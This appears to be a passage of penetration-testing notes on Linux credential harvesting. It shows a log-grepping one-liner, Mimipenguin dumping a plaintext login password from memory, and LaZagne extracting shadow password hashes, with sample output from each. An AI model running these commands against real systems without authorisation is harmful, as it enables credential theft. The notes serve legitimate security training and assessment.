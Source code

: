 
```bash
Username@unixclient:~$ for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done

#### Log file:  /var/log/dpkg.log.1
2022-01-10 17:57:41 install libssh-dev:amd64 <none> 0.9.5-1+deb11u1
2022-01-10 17:57:41 status half-installed libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 configure libssh-dev:amd64 0.9.5-1+deb11u1 <none> 
2022-01-10 17:57:41 status unpacked libssh-dev:amd64 0.9.5-1+deb11u1 
2022-01-10 17:57:41 status half-configured libssh-dev:amd64 0.9.5-1+deb11u1
2022-01-10 17:57:41 status installed libssh-dev:amd64 0.9.5-1+deb11u1

...SNIP...
```

### Search Memory and Cache for Credentials

>Memory - [Mimipenguin](https://github.com/huntergregal/mimipenguin)
```bash
Username@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for Username: 

[SYSTEM - GNOME]	Username:WLpAEXFa0SbqOHY


Username@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for Username: 

MimiPenguin Results:
[SYSTEM - GNOME]          Username:WLpAEXFa0SbqOHY
```

> Memory - LaZagne
Wifi	Wpa_supplicant	Libsecret	Kwallet
Chromium-based	CLI	Mozilla	Thunderbird
Git	Env_variable	Grub	Fstab
AWS	Filezilla	Gftp	SSH
Apache	Shadow	Docker	KeePass
Mimipy	Sessions	Keyrings
```bash
Username@unixclient:~$ sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::

[+] Hash found !!!
Login: sambauser
Hash: $6$wgK4tGq7Jepa.V0g$QkxvseL.xkC3jo682xhSGoXXOGcBwPLc2CrAPugD6PYXWQlBkiwwFs7x/fhI.8negiUSPqaWyv7wC8uwsWPrx1:18862:0:99999:7:::

```